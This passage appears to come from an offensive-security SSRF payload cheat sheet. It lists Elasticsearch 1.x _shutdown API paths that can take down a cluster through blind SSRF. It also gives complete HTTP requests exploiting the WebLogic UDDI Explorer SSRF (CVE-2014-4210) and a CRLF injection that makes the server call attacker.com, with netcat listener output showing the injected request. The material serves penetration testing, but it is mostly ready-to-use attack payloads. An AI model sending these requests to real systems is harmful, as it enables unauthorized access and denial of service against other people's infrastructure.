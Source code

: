 If you have a blind SSRF where you can send POST requests, you can shut down the Elasticsearch instance by sending a POST request to the following path:

Note: the `_shutdown` API has been removed from Elasticsearch version 2.x. and up. This only works in Elasticsearch 1.6 and below:

```http
/_shutdown
/_cluster/nodes/_master/_shutdown
/_cluster/nodes/_shutdown
/_cluster/nodes/_all/_shutdown
```

<div id="weblogic"></div>

## Weblogic

**Commonly bound ports: 80, 443 (SSL), 7001, 8888**

**SSRF Canary: UDDI Explorer (CVE-2014-4210)**

```http
POST /uddiexplorer/SearchPublicRegistries.jsp HTTP/1.1
Host: target.com
Content-Length: 137
Content-Type: application/x-www-form-urlencoded

operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```

This also works via GET:

```bash
http://target.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```

This endpoint is also vulnerable to CRLF injection:

```
GET /uddiexplorer/SearchPublicRegistries.jsp?operator=http://attacker.com:4000/exp%20HTTP/1.11%0AX-CLRF%3A%20Injected%0A&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search HTTP/1.0
Host: vuln.weblogic
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Connection: close
```

Will result in the following request:

```
root@mail:~# nc -lvp 4000
Listening on [0.0.0.0] (family 0, port 4000)
Connection from example.com 43111 received!
POST /exp HTTP/1.11
X-CLRF: Injected HTTP/1.1
Content-Type: text/xml; charset=UTF-8
soapAction: ""
Content-Length: 418
User-Agent: Java1.6.0_24
Host: attacker.com:4000
Accept: text/html, image/gif, image/jpeg, */*; q=.2
Connection: Keep-Alive

```